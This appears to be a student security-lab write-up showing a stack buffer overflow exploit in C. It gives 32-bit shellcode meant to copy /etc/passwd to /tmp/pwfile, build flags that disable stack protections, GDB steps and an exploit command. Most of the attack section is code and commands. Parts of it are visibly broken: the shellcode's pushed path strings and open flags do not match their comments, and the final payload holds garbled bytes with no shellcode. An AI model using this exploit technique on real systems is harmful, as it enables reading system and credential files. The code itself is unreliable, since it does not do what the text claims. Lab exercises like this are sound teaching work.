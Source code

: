
# Code Injection Lab

In this lab, I will demonstrate the Code Injection approach to exploit a vulnerability in a C program. The objective is to copy the `/etc/passwd` file to `/tmp/pwfile` using a code injection attack. Below is a detailed step-by-step guide to achieve this.

## Step 1: Create the Necessary Files  
We will start by creating two files:
- `shellcode.asm`: Contains the assembly code for our shellcode.
- `redundant.c`: A vulnerable C program that will allow us to inject our shellcode.

## Step 2: Initialization
1. **Open Docker** and navigate to your local folder:
   ```bash
   cd C:\Users\Admin\Seclabs
   ```
2. **Start the Docker image**:
   ```bash
   docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
   ```

## Step 3: Write and Compile the ASM Code
We will compile `shellcode.asm` into an executable object file.

1. Create your `shellcode.asm` with the following code:
   ```asm
   global _start
   section .text
   _start:
       ; Assembly code that opens /etc/passwd and writes it to /tmp/pwfile
       xor eax, eax
       mov al, 0x5            ; syscall number for open
       xor ecx, ecx          ; flags = O_RDONLY
       push ecx
       push 0x64777373       ; 'sswd'
       push 0x61702f63       ; 'c/pa'
       push 0x74652f2f       ; '//etc'
       lea ebx, [esp + 1]    ; pointer to the filename
       int 0x80              ; call kernel

       mov ebx, eax          ; store the file descriptor
       mov al, 0x3           ; syscall number for read
       mov edi, esp          ; destination buffer
       mov ecx, ebx          ; file descriptor
       push WORD 0xffff      ; number of bytes to read
       pop edx
       int 0x80              ; call kernel
       mov esi, eax          ; number of bytes read

       push 0x5              ; syscall number for open
       pop eax
       xor ecx, ecx          ; flags = O_CREAT | O_WRONLY | O_TRUNC
       push ecx
       push 0x706d742f       ; '/tmp'
       push 0x656c6966       ; 'file'
       mov ebx, esp          ; pointer to the output filename
       push WORD 0644        ; permissions
       pop edx
       int 0x80              ; call kernel

       mov ebx, eax          ; file descriptor for /tmp/pwfile
       push 0x4              ; syscall number for write
       pop eax
       mov ecx, edi          ; source buffer
       mov edx, esi          ; number of bytes to write
       int 0x80              ; call kernel

       xor eax, eax
       xor ebx, ebx
       mov al, 0x1           ; syscall number for exit
       int 0x80              ; call kernel
   ```
2. Compile the assembly code:
   ```bash
   nasm -f elf32 shellcode.asm -o shellcode.o
   ld -m elf_i386 shellcode.o -o shellcode
   ```
   ![Compilation Output](image.png)

## Step 4: Modify Shell Configuration  
We will link `/bin/sh` to a more predictable shell for the attack:
```bash
sudo ln -sf /bin/zsh /bin/sh
ls -l /bin/sh
```

## Step 5: Compile the Vulnerable C Program
Next, we will compile the vulnerable `redundant.c` program with specific flags to disable security protections:

1. Write the vulnerable C code in `redundant.c`:
   ```c
   #include <stdio.h>
   #include <string.h>

   void redundant_code(char* p) {
       char local[256];
       strncpy(local, p, 20);
       printf("redundant code
");
   }

   int main(int argc, char* argv[]) {
       char buffer[16];
       strcpy(buffer, argv[1]);
       return 0;
   }
   ```
2. Compile with stack protector disabled and executable stack enabled:
   ```bash
   gcc redundant.c -o redundant.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
   ```

## Step 6: Debug with GDB

To check the memory layout and ensure the injection is working, we will load the program into GDB. This will help us observe the vulnerable buffer, inspect the stack, and verify the address where we will inject our shellcode.
```sh
gdb ./redundant.out
break redundant_code
run $(python -c "print('A'*72)")  # Adjust buffer size as necessary
p &buffer
```

### Verify Shellcode Injection
Set a breakpoint at the point where your shellcode should execute and step through to verify successful injection. This allows you to confirm the overwritten return address points to the shellcode.

---

## Step 7: Launch the Exploit and Copy `/etc/passwd`

Now that we have verified the memory layout, we can proceed to exploit the vulnerability by injecting our crafted payload. The payload will overwrite the return address, causing the program to jump to the shellcode and execute it.

To trigger the exploit, use the following command to pass the crafted input that includes the shellcode:
```bash
./redundant.out "$(python -c "print('A'*72 + '´Åü÷')")"  # Adjust address as necessary
```

- `'A' * 72` fills the buffer up to the return address.
- Overwrites the return address to point to the location of the shellcode.

After running the program, it will execute the shellcode and copy the `/etc/passwd` file to `/tmp/pwfile`.

### Verifying the Attack
To confirm that the exploit succeeded, check that the `/etc/passwd` file has been copied to `/tmp/pwfile`:
```bash
ls -l /tmp/pwfile
```
You should see that the file exists, confirming that the code injection attack successfully executed.

---

## Conclusion

In this lab, we exploited a buffer overflow vulnerability in a C program to perform a code injection attack. By disabling security protections and controlling the memory layout, we were able to inject custom shellcode into the program. This shellcode successfully copied the `/etc/passwd` file to `/tmp/pwfile`, demonstrating a practical example of code injection through buffer overflow.
